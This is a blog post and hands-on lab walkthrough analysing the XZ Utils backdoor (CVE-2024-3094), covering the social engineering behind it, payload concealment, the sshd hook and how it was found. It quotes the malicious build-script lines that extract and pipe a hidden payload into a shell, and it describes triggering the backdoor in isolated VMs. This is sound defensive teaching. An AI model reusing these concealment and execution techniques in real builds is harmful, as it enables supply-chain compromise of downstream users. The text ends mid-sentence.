On Friday, March 29, 2024, a Microsoft engineer named [Andres Freund](https://github.com/anarazel) sent an email to the `oss-security` mailing list that quietly averted what might have been the most consequential supply-chain compromise in the history of open source. He had been chasing a performance oddity — SSH logins on a Debian test system were running about **half a second slower** than they should have, and `liblzma` was burning suspicious amounts of CPU. What he found at the bottom of that rabbit hole was a deliberately planted backdoor in **XZ Utils**, a compression library that ships in virtually every Linux distribution on Earth.

This is the story of [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) — a CVSS **10.0 Critical** — and why it should change how we think about the software we trust. Unlike a typical buffer overflow or misconfiguration, this was a *patient, human-driven* attack: a roughly two-year social-engineering campaign that ended with an RCE backdoor poised to land in the SSH daemon of millions of servers — and was caught, by luck and one stubborn engineer, just before it reached them. It's the best teaching case I know of for the modern supply-chain threat, and I wanted to understand it well enough to build it in a lab, so let's do it!

## What is XZ Utils, and why does it matter?

XZ Utils is the reference implementation of the **LZMA** compression algorithm. Its core library, `liblzma`, is a dependency of an enormous amount of software. The critical detail for this attack is a transitive dependency chain that most people never think about:

- On many distributions (notably Debian and Fedora derivatives), **OpenSSH's `sshd` is patched to link against `libsystemd`** for service notification (`sd_notify`).
- **`libsystemd`, in turn, links `liblzma`.**

So the world's most security-sensitive remote-access daemon was pulling a compression library into its address space — and almost nobody was watching that seam. That seam is what the attacker built two years of work around.

## The long con: social engineering a maintainer

The technical payload is clever, but the *delivery mechanism* is what makes this attack required reading. XZ Utils was, for years, maintained largely by a single volunteer, **Lasse Collin** — a textbook example of the [xkcd "Dependency"](https://xkcd.com/2347/) problem, where the entire modern internet rests on a project "some random person in Nebraska has been thanklessly maintaining since 2003."

Starting in 2021, a brand-new contributor calling themselves **"Jia Tan"** (GitHub handle `JiaT75` -- who's still unsuspended on github suprsingly) began submitting patches. Over two years they built a track record of legitimate-looking contributions and slowly earned trust. Then the pressure campaign began. A cluster of **sockpuppet accounts** — names like `Jigar Kumar`, `krygorin4545`, and `misoeater91` — appeared on the mailing lists to lean on the burned-out maintainer: complaining that patches weren't being merged fast enough, that the project was stagnant, that it needed a co-maintainer. Collin, under real-life stress and dealing with mental-health pressures he'd been candid about, eventually granted Jia Tan commit rights and release authority.

> **The lesson:** the attacker didn't *break* trust — they *manufactured* it, then exploited the human at the weakest point of the chain. No firewall, WAF, or CVE scanner detects "a maintainer was socially engineered over 24 months."

## The payload: hidden in plain sight

Once Jia Tan controlled releases, the backdoor went in for versions **5.6.0** (February 2024) and **5.6.1** (March 2024). The concealment was the genuinely brilliant part:

1. **It wasn't in the git repository.** The malicious logic lived in a modified `build-to-host.m4` script that was present **only in the release tarball** (the `.tar.gz` distributions packagers actually build from), not in the public Git source. Anyone auditing GitHub saw clean code. This is a crucial detail — *what you review is not always what you build.*

2. **The binary payload was disguised as test data.** The actual machine code was smuggled into the repo as "corrupt" test fixtures for the compression tests — files like `bad-3-corrupt_lzma2.xz`. They looked like garbage test inputs. During the build, the `m4` script extracted and decompressed them to assemble the real payload.

3. **It was build-environment-aware.** The injection only fired when building on **x86-64 Linux with glibc and GCC**, under an RPM or Debian packaging process. On any other system — including a developer's casual local build — it stayed dormant. This is classic anti-analysis: behave benignly except in the exact conditions you're targeting.

### Artifact 1: the obfuscated extractor

The malicious `build-to-host.m4` first located its payload by scanning the source tree for a **magic marker** — a string of `####<5 chars>####`. That one line is the whole trick: it lets the build pull in a file nobody would think to inspect.

```bash
# From the injected build-to-host.m4 — find the payload by its magic marker
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
```

The contents were then run through a now-infamous byte-substitution `tr` command, which de-obfuscated the next stage. Standing alone it does nothing — but it's the single most recognizable fingerprint of this attack:

```bash
# The stage-0 de-obfuscation: a custom byte map, not a real cipher
tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"
```

No malware here — just a character-mangling pipe. That's exactly why it slid past review: nothing in it *looks* dangerous in isolation.

### Artifact 2: the payload disguised as test data

The actual machine code never appeared as source. It lived in the test fixtures, where "binary garbage" is *expected* and rarely audited:

```text
tests/files/bad-3-corrupt_lzma2.xz       # stage-1 shell script (extracted at build time)
tests/files/good-large_compressed.lzma   # the bulk of the backdoor payload itself
```

A quick header peek shows why a casual look raised no alarm — these don't even parse as valid `xz`/`lzma` streams, so any tool that touched them just shrugged:

```bash
# In a SAFE, offline VM only — inspecting headers, never executing
$ xxd tests/files/bad-3-corrupt_lzma2.xz | head -n 2
# (bytes that are not a well-formed .xz magic — by design)
```

> The hard part here wasn't writing the payload. It was picking the one directory in an open-source repo where an opaque binary blob looks like it belongs — the test fixtures, where nobody reads the bytes.

## The mechanism: hijacking SSH authentication

When the conditions were met, the backdoor hooked itself into the running `sshd` process using **glibc IFUNC resolvers**. IFUNC ("indirect function") is a legitimate glibc mechanism that lets a library pick the best implementation of a function *at load time* (e.g., choosing an AVX-optimized `memcpy`). The backdoor abused this to run its own resolver code during dynamic linking and **redirect a function in OpenSSH's authentication path** — specifically intercepting `RSA_public_decrypt`.

The result: an attacker holding a specific **Ed448 private key** could craft a certificate that, when presented during the SSH handshake, caused the hooked function to **execute an arbitrary payload before authentication ever completed**. No password. No valid account. No log entry of a successful login. A pre-auth remote code execution backdoor that *only the key-holder could trigger* — meaning even a defender who found the backdoor couldn't easily use it, and couldn't easily tell if they'd been hit.

### What it actually does — and what it doesn't

This is the part most summaries gloss over:

- **It's not a beacon or C2 implant.** It never makes an outbound connection and never phones home. It's passive — it sits inside `sshd` and waits for the attacker to come to it. (That's part of why egress monitoring would never have flagged it.)

- **It's not a "magic login" either.** No rogue `authorized_keys` entry, no hardcoded password, no extra account. There's no authenticated session and no successful-login record.

- **It's gated, pre-authentication remote code execution.** The backdoor carries the attacker's Ed448 _public_ key baked in; only the holder of the matching _private_ key can trigger it. The result isn't a shell prompt — it's `system(command)` running as root, before authentication even finishes.

So the "prepacked key" intuition is half right: there *is* an embedded key — but it's the attacker's *public* key used to **authenticate the trigger**, not a credential you log in with. The payoff is strictly more dangerous than a login: arbitrary command execution with no account, no password, and nothing written to the auth log...all as root.

Here's the full trigger chain — note the two branches. For anyone *without* the private key (i.e. the entire internet), the hook silently falls through to the real function and the server behaves normally. Only a valid Ed448 signature unlocks code execution:



*The trigger chain: a valid Ed448 signature turns an ordinary-looking pubkey auth into pre-auth RCE; everyone else just gets a normal SSH server.*

### Could you just crack the key?

The obvious question: if the attacker's **public** key is sitting right there in the binary, can't someone recover the private key and seize the backdoor for themselves? **No — and it isn't a matter of throwing more compute at it.**

That key is **Ed448**, an elliptic-curve scheme with roughly **224 bits of security**. Recovering the private key from the public key means solving the elliptic-curve discrete-log problem; the best known attack (Pollard's rho) is on the order of **2²²⁴ operations**. That isn't "expensive" — it's the same wall that protects Ed25519 or a 3072-bit RSA key, and it would finish long after the sun burns out. No serious cracking attempt was ever mounted, for that reason. This is exactly **why research tools like [xzbot](https://github.com/amlweems/xzbot) patch in their _own_ key** instead of recovering the original: it's a workaround for an unbreakable lock, not a crack of it.

The cryptographically *interesting* twist wasn't breaking the key — it was how it got **into** the binary. The build appeared to produce the public key in a way that looked impossible (the key materializing before any private key existed). The trick: **x86 steganography** — the key bytes were scattered across otherwise-valid machine instructions in the compiled payload, hidden inside the code rather than stored as an obvious constant. ([rya.nc's analysis](https://rya.nc/xz-valid-n.html) walks through it.)

Honest caveats on whether the real key could *ever* surface:

- **Cryptanalysis** — no, barring a fundamental break in Ed448 itself.
- **Quantum** — a large fault-tolerant quantum computer could solve this via Shor's algorithm, but nothing remotely capable exists (and all current ECC shares that fate).
- **Operationally** — the only realistic path is the actor leaking or reusing the key, or a law-enforcement seizure. Never math.

So to this day the backdoor is triggerable **only by whoever holds that one private key** — part of what made it such a clean, targeted weapon rather than a free-for-all.

## The catch: a half-second and a curious engineer

What saved us was not a tool, a scanner, or a policy. It was one engineer who refused to ignore an anomaly. Andres Freund noticed SSH logins were ~500ms slower than expected and that `liblzma` was eating CPU. Profiling showed strange symbol-resolution overhead; **Valgrind** threw errors that didn't make sense for a compression library. He pulled the thread, found the backdoor, and disclosed it before 5.6.x had propagated into the *stable* releases of the major distributions.

### Artifact 3: the disclosure, in his own words

The entire industry found out from a single mailing-list post. It's worth reading the understated opening — this is what "we got lucky" sounds like in real time:

> After observing a few odd symptoms around liblzma (part of the xz package) on
> Debian sid installations over the last weeks (logins with ssh taking a lot of
> CPU, valgrind errors) I figured out the answer:
>
> The upstream xz repository and the xz tarballs have been backdoored.
>
> — Andres Freund, [oss-security, 29 March 2024](https://www.openwall.com/lists/oss-security/2024/03/29/4)

The malicious 5.6.x versions had reached rolling/testing branches (Fedora Rawhide, Debian sid/testing, openSUSE Tumbleweed, Kali, some Arch builds) but largely **missed the stable enterprise releases** — so we got extraordinarily lucky.

No CVE feed, no vendor bulletin, no EDR alert fired first. A performance regression and a curious mind did.

## Are you affected?

Check your XZ/liblzma version:

```bash
xz --version
# Vulnerable: 5.6.0 and 5.6.1
```

```bash
# Confirm whether your sshd even pulls in liblzma (via libsystemd) — this shows the
# linkage that made the attack possible; it does NOT by itself prove compromise.
# For an authoritative malicious-build check, use the CISA / distro advisory script.
ldd "$(command -v sshd || echo /usr/sbin/sshd)" | grep -E 'liblzma|libsystemd'
```

If you're on a stable enterprise distro (RHEL, stock Debian/Ubuntu LTS), you were almost certainly never exposed — but **verify, don't assume**. Downgrade to a known-good `5.4.x` line if you find `5.6.0`/`5.6.1`, and rotate any credentials/keys on a host you can't fully clear.

## Getting hands-on: poking the bear

In order to get some hands on, I decided to [create some labs](https://github.com/stevehenderson/lab_xz_backdoor) to safely explore this CVE.

### Prereqs

The labs are optimized for Linux Ubuntu 22+.

Install Canonical [multipass](https://canonical.com/multipass), an excellent virtual machine manager for Ubuntu.

```
sudo snap install multipass
```

Download the labs:

```
git clone https://github.com/stevehenderson/lab_xz_backdoor.git
cd lab_xz_backdoor
```

### Lab 1 - Inspecting the malware files


```
./lab1-inspect/run.sh --keep
```

This will run a script to download the official compromised xz tarball (the same one caught by Andres Freund) to a temporary directory.  It will then upload that file to an isolated VM where the script will unpack and analyze the compromised xz package.  It will then generate a report.  We add `--keep` here to keep the VM so we can go through things manually.

The lab should finish on its own:

```
.
.
.
------------------------------------------------------------
### Done
------------------------------------------------------------
Full log saved to: /home/ubuntu/lab1/out/inspection.log
Nothing was built or executed. Tear the guest down with 'make clean'.
[+] Inspection complete. Report: /home/henderso/dev/labs/lab_xz_backdoor/reports/lab1-5.6.1-20260614T173210Z/inspection.log
[*] Keeping VM 'xz-lab' (--keep). Remove later with 'make clean'.
[+] Lab 1 done. Read the log above; nothing was built or executed.
```


Now let's go through it manually

#### Connect to the Isolated Lab 1 VM

```
multipass list
```

You should see `xz-lab` running:

```
xz-lab                  Running           10.63.59.63      Ubuntu 22.04 LTS
```

Let's connect over console:

```
multipass shell xz-lab
```

You are now logged into the VM.  You should be able to see the compromised xz 5.6.1 lib:


#### Inspecting the Compromised xz tarball

```
ubuntu@xz-lab:~$ ls lab1/
clean-build-to-host.m4  inspect.sh  out  xz-5.6.1.tar.gz
ubuntu@xz-lab:~$ 
```

Checking its sha256 hash:

```
ubuntu@xz-lab:~$ sha256sum lab1/xz-5.6.1.tar.gz 
2398f4a8e53345325f44bdd9f0cc7401bd9025d736c6d43b372f4dea77bf75b8  lab1/xz-5.6.1.tar.gz
```

If you look this up on [Virus Total](https://www.virustotal.com/gui/home/search), confirmed bad:







Note in the virus total report this file:  `xz-5.6.1/m4/build-to-host.m4`

Let's go ahead and find this in the tarball inside the VM:


```
ubuntu@xz-lab:~$ mkdir /tmp/foo
ubuntu@xz-lab:~$ tar xvfz lab1/xz-5.6.1.tar.gz -C /tmp/foo
```


If we look into the m4 directory we will see the compromised file with the backdoor: `/tmp/foo/xz-5.6.1/m4/build-to-host.m4`

This file is **only in the tarball**, not in git source tree.  I say again, this file is NOT in xz's git repo; it is part of [gnulib](https://github.com/coreutils/gnulib) and only appears in the generated tarball as part of the build process. ***That is exactly where the backdoor hid.***

We can verify with a diff of a clean gnulib (which our lab script should have pulled) vs the compromised gnulib in the compromised xz tarball:


```
cd ~/lab1
diff clean-build-to-host.m4 /tmp/foo/xz-5.6.1/m4/build-to-host.m4
```




These lines are the hook into installing the backdoor:

```
!! 40:  gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
!! 62:  if test "x$gl_am_configmake" != "x"; then
!! 63:    gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
!! 67:  _LT_TAGDECL([], [gl_path_map], [2])dnl
!! 69:  _LT_TAGDECL([], [gl_am_configmake], [2])dnl
!! 78:  AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
!! 86:  gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
!! 87:  if test -n "$gl_am_configmake"; then
!! 95:  gl_path_map='tr "\t \-_" " \t_\-"'
```

When `./configure` is called this function will fire:


```
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/`
```

..and recursively greps the source tree for a file whose contents end with the magic marker `#### + 5 alphanumerics + ####.` Those 5 characters are `Hello`, so it's hunting for the line `####Hello####`. The `-a` flag forces `grep` to treat binary files as text, because the payload was buried in files that looked like xz's "corrupt" compression test fixtures (e.g. `bad-3-corrupt_lzma2.xz`). This was clever obfuscation, as a normal build macro has zero reason to scan source files for magic byte patterns.

#### Examining the backdoor code

We can look for the magic marker ourselves:



Teaching point: a genuine `.xz` starts with magic `FD 37 7A 58 5A 00` ('7zXZ').  These 'corrupt' fixtures carry the compressed backdoor stages, not test data.  This is a tell of sorts..

The backdoor is injected into the binary during these commands in `/tmp/foo/xz-5.6.1/m4/build-to-host.m4`:

* Line 95 — the deobfuscation cipher

```
gl_path_map='tr "\t \-_" " \t_\-"'
```

Defines a `tr` command that swaps tab↔space and -↔_. The payload was stored with these characters transposed so it wouldn't look like valid code/data; this reverses the substitution.

* Line 40 — pick the decompressor

```
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
```

Strips everything before the last dot to grab the file extension, which ends up being `xz` — so `$gl_[$1]_prefix` becomes the literal `xz` command used below.

* Line 63 — the extraction pipeline

```
gl_[$1]_config='sed "r\n" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
```

This is the assembled command: read the hidden file → run it through the `tr` cipher → `xz -d` to decompress → discard errors. The output is the next-stage script. Piping a decompressed-and-decoded blob like this is the giveaway.

* Lines 62 / 87 — guards

Standard test `"x$..." != "x" / test -n` non-empty checks, so it only proceeds if a payload was actually found.


* Lines 67 / 69 — smuggle the variables

```
_LT_TAGDECL([], [gl_path_map], [2])
_LT_TAGDECL([], [gl_am_configmake], [2])
```

These abuse libtool's tag-declaration machinery to carry `gl_path_map` and `gl_am_configmake` through the generated configure script without looking out of place.


* Line 78 — execution

```
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
```

`AC_CONFIG_COMMANDS` registers code to run during configure. It evaluates the pipeline from line 63 and pipes its output directly into `$SHELL`. That's the actual code execution — the decoded payload runs.

We could try to run this ourselves at this point, but it does little beyond producing a compromised binary with an embedded backdoor.  That's what we want to detonate, and we'll get there in lab2.

So, lets log out of lab 1 and shut things down

Type the following until you are brought back to your developer console on your laptop/box:

```
exit
```

Tear down the lab:

```
make clean
```

### Lab 2 - Detonate the Backdoor

Reading the artifacts is one thing; we really wanted to watch the backdoor actually *fire* and see what it looked like on the wire. There's a crucial catch that makes this more interesting than a typical exploit demo:

> **We cannot replay the real attack.** The trigger payload must be signed with the attacker's **Ed448 private key**, which was never published. Nobody outside the operator can remotely activate the original backdoor. To study activation in a lab we have to substitute a key *we* control.

The reference tool for this is **[amlweems/xzbot](https://github.com/amlweems/xzbot)** — it ships an ED448 patch (drop in your own public key so you can forge a valid trigger), an exploit demo that runs a command on the backdoored host, and a honeypot + patched `sshd` that logs activation attempts. All of the below stays in the **same isolated, snapshot-able VM** from the previous section — reconfigured onto an internal-only network (so I can sniff the loopback/bridge traffic) with no route to the internet.

This is built into the lab2 setup file, so let's just run that:

#### Prepping the Architecture

```
make lab2
```



This will run the lab autonomously, which is a good starting point for our analysis:

```
.
.
.
[+] Backdoored liblzma is loaded into sshd (pid 2383). Host is armed.
>> Taking VMs offline (drop default route; keep mgmt + isolated bridge)
>> Isolation guard on compromised (must have no internet)
[*] Isolation guard: asserting guest has NO route to the internet...
[+] Isolation guard passed: guest is offline.

=== Lab 2 ready ===
  Network: xzbr0 (10.77.0.0/24, isolated)
    analyst     10.77.0.10   (your jumpbox — control plane)
    compromised 10.77.0.20   (backdoored sshd; liblzma keyed to analyst)
    normal      10.77.0.30   (plain sshd, control)

  Drive the demo from the analyst:
    multipass shell analyst
      ~/demo/demo-latency.sh        # SSH timing: normal vs compromised
      ~/demo/demo-capture.sh        # pcap the handshakes + the trigger
      ~/demo/demo-trigger.sh        # fire the backdoor (root RCE on compromised)

  Tear it all down:  make clean   (or bash lab2-detonate/teardown.sh)
>> Ready. Drive the demo from: multipass shell analyst  (see ~/demo/)
```

The lab makes 3 VMs:

  * analyst
  * compromised:  A linux VM w/ `sshd` build with the compromised `xz` lib (after `setup.sh` is ran)
  * normal:  Plain, non-compromised VM



The lab2 make file also edits the compromised machine to have the backdoor:

